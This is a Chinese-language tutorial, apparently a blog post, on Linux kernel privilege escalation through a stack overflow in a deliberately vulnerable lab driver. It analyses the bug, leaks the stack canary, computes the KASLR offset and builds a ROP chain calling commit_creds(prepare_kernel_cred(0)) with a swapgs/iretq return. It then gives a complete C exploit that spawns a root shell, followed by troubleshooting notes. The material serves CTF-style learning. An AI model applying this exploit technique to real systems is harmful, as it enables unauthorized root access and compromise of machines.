



linux 内核提权总结(demo+exp分析) -- ROP(一)
基础ROP篇(linux 5.0.21)
内核提权与用户态攻击的区别
-
攻击流程
- 用户态攻击: 执行 system("/bin/sh") 获得shell
- 内核提权:
- 内核执行 commit_creds(prepare_kernel_cred(0)) 使进程获得root权限
- 用户态进程执行system("/bin/sh") 获得root权限 shell
-
理解难点
- 内核rop链构造
- 用户态进程与内核之间的切换
一. 漏洞分析 (建议初学者先了解基础的驱动程序知识)
-
查看驱动安全机制
checksec rop.ko [*] '/home/povcfe/linux/flod/rop.ko' Arch: amd64-64-little RELRO: No RELRO Stack: Canary found NX: NX enabled PIE: No PIE (0x0)- 发现开启canary和NX
-
查看qemu启动脚本boot.sh
- boot.sh
qemu-system-x86_64 \ -kernel bzImage \ -initrd rootfs.img \ -append "console=ttyS0 root=/dev/ram rdinit=/sbin/init" \ -cpu qemu64 \ -nographic \ -gdb tcp::1234 -
查看开机自启脚本
- rcS
#!/bin/sh mount -t proc none /proc mount -t sysfs none /sys echo /sbin/mdev > /proc/sys/kernel/hotplug # 支持热拔插 /sbin/mdev -s cat /proc/kallsyms > /tmp/kallsyms # 当/proc/sys/kernel/kptr_restrict=1时，普通用户不能通过/proc/kallsyms读取函数地址，为减少难度直接将kallsyms内容写入临时目录 insmod rop.ko # 目标驱动 chmod 777 /dev/povcfe_dev chmod 777 /dev/rop_dev setsid cttyhack setuidgid 1000 sh -
审计代码，可以发现dangerous函数存在明显的栈溢出漏洞(降低难度直接泄漏canary)
void dangerous(size_t num) { char overflow[0x10] = {0}; printk(KERN_INFO "canary is 0x%lx", *((size_t *)overflow + 2)); memcpy(overflow, kernel_buf, num); printk(KERN_INFO "%s", overflow); } -
利用思路
- Canary通过printk泄露
- NX使用rop绕过
- 读取 /tmp/kallsyms的startup_64(获得内核代码加载基地址，用于定位ROPgadget在内存中的真实地址)
- 读取 /tmp/kallsyms的commit_creds, prepare_kernel_cred，获得目标内核函数地址
二. ROP链构造
-
内核执行commit_creds(prepare_kernel_cred(0))
- 通过/tmp/kallsyms获得 commit_creds() prepare_kernel_cred() 函数地址

- 执行 cat tmp/kallsyms | grep startup_64, 如果startup_64不等于0xffffffff81000000, 即内核开启kalsr防护, startup_64与0xffffffff81000000 的差值即为内核基地址偏移(很多发行版默认不打开kalsr, 利用就比较简单了)

- 利用ROPgadget获得vmlinux的所有gadget片段(如果效果不理想可换用ropper)
ROPgadget --binary vmlinux > rop_gadget根据所需在rop_gadget中搜索(因为程序开启kalsr，所以 真实地址 = rop_gadget地址 + 基地址偏移)
-
返回用户态
-
进入内核前，保存用户态数据
size_t user_cs, user_ss, user_rflags, user_sp; void save_status() { __asm__("mov user_cs, cs;" "mov user_ss, ss;" "mov user_sp, rsp;" "pushf;" "pop user_rflags;" ); } -
内核切换到用户态
- 执行swapg 恢复GS值(GS通过宏实现, 并不保存在gs寄存器)
- 执行iretq 恢复用户态数据(或者执行sysretq 只需提供rip)
- 需要提前在栈上填充用户态数据(rip,cs,rflags,sp,ss)
- 填充的用户态数据应在用户态切换到内核态前保存(内联汇编)
-
-
ROP 链构造
-
commit_creds() 接收 prepare_kernel_cred(0)的返回值作为参数，即rdi <- rax 时需要灵活变通(手动搜索rop_gadget文件)
ROP[i++] = 0xffffffff8106b910 + offset; // pop rdi, ret ROP[i++] = 0x0; ROP[i++] = prepare_kernel_cred; ROP[i++] = 0xffffffff8105bd21 + offset; // test rcx,rcx ; jne 0xffffffff8105bcc6 ; pop rbp ; ret ROP[i++] = 0x0; ROP[i++] = 0xffffffff8110c68a + offset; // mov rdi, rax ; jne 0xffffffff8110c672 ; pop rbp ; ret ROP[i++] = 0x0; ROP[i++] = commit_creds; ROP[i++] = 0xffffffff81a00d5e + offset; // swapgs ; popfq ; pop rbp ; ret ROP[i++] = 0x0; ROP[i++] = 0x0; ROP[i++] = 0xffffffff81024b3b + offset; // iretq ROP[i++] = (size_t)get_shell; // rip ROP[i++] = user_cs; ROP[i++] = user_rflags; ROP[i++] = user_sp; ROP[i++] = user_ss; -
三. 结果展示

四. exp
// gcc rop.c -masm=intel -static -o rop
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void get_shell()
{
if (!getuid())
{
puts("=.=");
system("/bin/sh");
}
else
{
puts("failed");
}
exit(0);
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
__asm__("mov user_cs, cs;"
"mov user_ss, ss;"
"mov user_sp, rsp;"
"pushf;"
"pop user_rflags;");
printf("ip is 0x%lx\n", (size_t)get_shell);
printf("cs is 0x%lx\n", user_cs);
printf("ss is 0x%lx\n", user_ss);
printf("sp is 0x%lx\n", user_sp);
printf("flag is 0x%lx\n", user_rflags);
puts("status has been saved.");
}
size_t get_addr(char *name)
{
int num = strlen(name) * 2 + 3 + 27;
char cmd[num];
memset(cmd, 0, num);
strcat(cmd, "cat /tmp/kallsyms | grep ");
strcat(cmd, name);
strcat(cmd, " > ");
strcat(cmd, name);
printf("the cmd is %s\n", cmd);
system(cmd);
char buf[19] = {0};
size_t addr = 0;
FILE *fp = fopen(name, "r");
if (fp == NULL)
{
printf("open %s error!\n", name);
exit(0);
}
fgets(buf, 18, fp);
addr = strtoul(buf, 0, 16);
printf("the addr(0x) is: %p\n", (void *)addr);
if (addr == 0)
{
puts("string conversion integer failed");
}
fclose(fp);
return addr;
}
size_t get_canary()
{
system("dmesg | grep canary > canary");
puts("the cmd is: dmesg | grep canary > canary");
FILE *fp = fopen("canary", "r");
if (fp == NULL)
{
puts("open canary error");
exit(0);
}
char buf[100] = {0};
size_t canary = 0;
fgets(buf, 100, fp);
puts(buf);
char *str_canary = strstr(buf, "0x");
puts(str_canary);
canary = strtoul(str_canary, 0, 16);
fclose(fp);
printf("the canary is 0x%lx\n", canary);
return canary;
}
char *rop(size_t offset, size_t *ROP, size_t commit_creds, size_t prepare_kernel_cred)
{
int i = 0;
ROP[i++] = 0xffffffff8106b910 + offset; // pop rdi, ret
ROP[i++] = 0x0;
ROP[i++] = prepare_kernel_cred;
ROP[i++] = 0xffffffff8105bd21 + offset; // test rcx,rcx ; jne 0xffffffff8105bcc6 ; pop rbp ; ret
ROP[i++] = 0x0;
ROP[i++] = 0xffffffff8110c68a + offset; // mov rdi, rax ; jne 0xffffffff8110c672 ; pop rbp ; ret
ROP[i++] = 0x0;
ROP[i++] = commit_creds;
ROP[i++] = 0xffffffff81a00d5e + offset; // swapgs ; popfq ; pop rbp ; ret
ROP[i++] = 0x0;
ROP[i++] = 0x0;
ROP[i++] = 0xffffffff81024b3b + offset; // iretq
ROP[i++] = (size_t)get_shell; // rip
ROP[i++] = user_cs;
ROP[i++] = user_rflags;
ROP[i++] = user_sp;
ROP[i++] = user_ss;
}
int main()
{
size_t base, commit_creds, prepare_kernel_cred;
base = get_addr("startup_64");
commit_creds = get_addr("commit_creds");
prepare_kernel_cred = get_addr("prepare_kernel_cred");
size_t offset = base - 0xffffffff81000000;
printf("offset 0x%lx\n", offset);
int fd = open("/dev/rop_dev", 2);
if (0 == fd)
{
puts("open /dev/rop_dev error");
exit(0);
}
char payload1[0x10] = {0};
write(fd, payload1, 0x10);
write(fd, payload1, 0x10);
size_t canary = get_canary();
size_t payload2[17] = {0};
payload2[0] = 0x6161616161616161;
payload2[1] = 0x6262626262626262;
payload2[2] = canary;
payload2[3] = 0x6363636363636363;
save_status();
rop(offset, &payload2[4], commit_creds, prepare_kernel_cred);
write(fd, payload2, 8*21);
puts("success");
return 0;
}
五. 踩坑记录
- 高版本linux canary存在\x00截断(低版本没有)
- 使用ROPgadget获得的gadget片段有可能存在于vmlinux的数据区 (不管是代码还是数据在内存中都只是一堆二进制数字), 所以如果内核开启NX保护, 那么内核数据区的gadget就不能用于ROP链构造
- 使用iretq从内核态切换至用户态时，出现段错误(用户态数据被正常还原)
- 解决方案: 将qemu的cpu启动参数由kvm64切换为qemu64
- ROPgadget 获得的代码片段中没有iretq和sysretq
- 原因：ROPgadget工具获得的代码片段作用于程序流程控制，即ret, call 等元素必须存在，但是内核态返回用户态只需执行 iretq指令，与其后接的汇编无关，由此看来，使用ROPgadget工具获得的内容是少于需求的，所以有可能iretq,sysretq, 不存在于获得的代码片段中
- 解决方案：
- python 进行iretq编码匹配
- ida 解析vmlinux 查找iretq指令